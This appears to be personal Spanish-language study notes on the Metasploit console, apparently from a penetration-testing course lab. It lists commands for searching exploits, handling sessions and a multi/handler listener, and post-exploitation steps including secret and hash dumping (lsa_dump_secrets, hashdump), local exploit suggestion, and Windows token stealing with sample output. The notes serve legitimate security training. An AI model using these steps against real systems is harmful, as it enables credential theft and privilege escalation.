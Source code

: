 msfconsole -q (vesrion quiet)

```shell-session
msf6 > help search
```

workspace
workspace -a (nombre) [anadir espacio de trabajo]

search --help

ejemplo: search vsftpd type:exploit

background (dejar session en segundo plano)
sessions(ver sesiones activas)
sessions -i 1 (retomar session)

show payloads
show targets

shell desde meterpreter 

use exploit/multi/handler (cuando ejecutamos un exploit con msfvenom)

run -j para que se quede en escucha en background

```shell-session
meterpreter > lsa_dump_secrets
```


Escalacion de privilegios

post/multi/recon/local_exploit_suggester
#### MSF - Dumping Hashes


```shell-session
meterpreter > hashdump
```

```shell-session
msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester
```

#### MSF - Meterpreter Migration con windows

  Meterpreter

```shell-session
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.


meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    


meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```